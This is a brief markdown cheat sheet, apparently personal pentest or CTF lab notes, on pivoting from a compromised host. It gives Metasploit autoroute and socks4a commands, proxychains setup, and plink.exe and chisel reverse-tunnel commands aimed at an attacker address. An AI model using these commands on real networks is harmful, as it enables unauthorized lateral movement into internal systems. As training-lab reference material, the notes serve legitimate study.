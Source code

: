 # msfconsole
* meterpreter session is requried
## Auto-Routing
```
background
use post/multi/manage/autoroute
set SESSION X
set SUBNET x.x.x.0
exploit
```
## Setting up a Proxy
1. use `auxiliary/server/socks4a`
2. (optional) Change you port, you can either keep the default 1080 port or change it to an open port of your choice.
3. `run`

# Proxy Chain
1. sudo nano /etc/proxychains.conf > socks4 socks4 	127.0.0.1 <port>
   1. the same port that you specify when `auxiliary/server/socks4a`
2. now run `proxychains <command>`

# plink.exe
```
plink.exe -ssh -l kali -pw kali -N -R 10.10.14.43:8888:127.0.0.1:8888 10.10.14.43
```

# chisel.exe
```
./chisel.exe client 10.10.14.43:8080 R:8888:127.0.0.1:8888
./chisel.exe client 10.10.14.43:8888 R:8888:127.0.0.1:8888
./chisel client 10.10.14.43:8080 R:8888:127.0.0.1:8888
```